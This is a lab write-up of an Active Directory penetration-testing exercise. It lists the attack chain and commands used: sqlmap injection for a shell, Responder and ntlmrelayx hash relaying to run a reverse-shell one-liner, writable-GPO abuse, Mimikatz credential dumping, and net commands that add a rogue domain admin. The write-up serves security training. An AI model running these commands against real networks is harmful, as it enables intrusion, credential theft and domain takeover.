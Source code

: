 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain

### Alternative route: password spraying
https://www.youtube.com/watch?v=hBvrC4t2hn8
Generate a list of passwords https://github.com/asciimoo/exrex


```
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!"
```



## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf


Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```


This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config


```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


This shows that Server Admins has write permissions on the GPO, which is a serious misconfig



```
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to



```
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```


The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use:
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain

